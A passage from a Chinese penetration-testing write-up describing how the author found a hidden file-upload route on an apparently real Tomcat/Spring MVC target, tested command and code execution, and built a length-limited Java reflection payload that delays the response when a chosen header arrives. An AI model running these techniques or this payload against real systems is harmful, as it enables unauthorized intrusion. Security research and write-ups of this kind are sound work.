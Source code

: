 继续猜，根据路由名称联想隐藏路由，随手 upload，响应码 405（~~离成功近了50步~~）

```text
/xxxxServer/upload/material
```
![](./img/1708841507615.png)

构造上传包，成功上传文件，并访问到文件（~~离成功近了80步~~）

![](./img/1708841526074.png)

然后，输 (这里各种猜想验证耗时许久)
- 通过命令执行 + 代码执行的方式去判断目标磁盘上是否有我上传的文件 -> 文件不存在
- 通过命令执行 + 代码执行的方式去判断目标磁盘是否存在 tomcat 的相关文件 (web.xml/index.jsp/index.html/静态文件等) -> 文件不存在

基本可以得出结论
- xxxxServer 应该部署在单独的服务器上，做文件存储使用（可以理解），同 /demo/ 路由所对应的应用不在一台服务器，这条路径宣告失败
- 目标极大概率为为 springboot 框架

2）bcel 内嵌文件写入 - 忽略
每次能写入的内容太短，不考虑

3）远程加载 - 失败

目标不出网，失败（这个很好验证，这里跳过）

4）request header - 成功

已知目标为 tomcat + springmvc 的组合，理论上可以用 https://github.com/pen4uin/java-echo-generator-release 一把梭; 但实际情况是由于长度限制太短，payload 还需手动缩短；

经过多次测试，最终使用 springmvc 的工具类构造符合长度条件的 payload 如下：

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke((Object)null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
// 传入 header name
String headerName = (String)request.getClass().getMethod("getParameter", String.class).invoke(request, "header_name");
// 判断后端接受到是否接收到 header
String flag = (String)request.getClass().getMethod("getHeader", String.class).invoke(request, headerName);
if (flag != null && !flag.equals("")) {
    Thread.sleep(3000L);
}
```